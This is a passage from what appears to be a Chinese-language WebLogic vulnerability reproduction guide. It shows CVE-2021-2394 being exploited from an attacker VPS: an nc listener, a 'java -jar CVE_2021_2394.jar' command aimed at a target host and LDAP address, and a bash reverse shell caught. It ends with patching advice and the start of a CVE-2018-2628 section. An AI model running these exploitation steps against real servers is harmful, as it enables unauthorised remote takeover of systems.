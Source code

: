 ![Dingtalk_20220324174515](.\image\Dingtalk_20220324174515.jpg)

vps开启nc监听。

![Dingtalk_20220324174604](.\image\Dingtalk_20220324174604.jpg)

vps利用CVE_2021_2394.jar发送攻击数据包。

vps执行：java -jar CVE_2021_2394.jar 目标主机域名或IP 端口 ldap监听地址

![Dingtalk_20220324174656](.\image\Dingtalk_20220324174656.jpg)

vps成功接收bashshell。

![Dingtalk_20220324174816](.\image\Dingtalk_20220324174816.jpg)

修复建议:

1、及时安装weblogic修复补丁。

## weblogic远程命令执行漏洞

### CVE-2018-2628

影响版本：

Oracle WebLogic Server 10.3.6.0

Oracle WebLogic Server 12.1.3.0
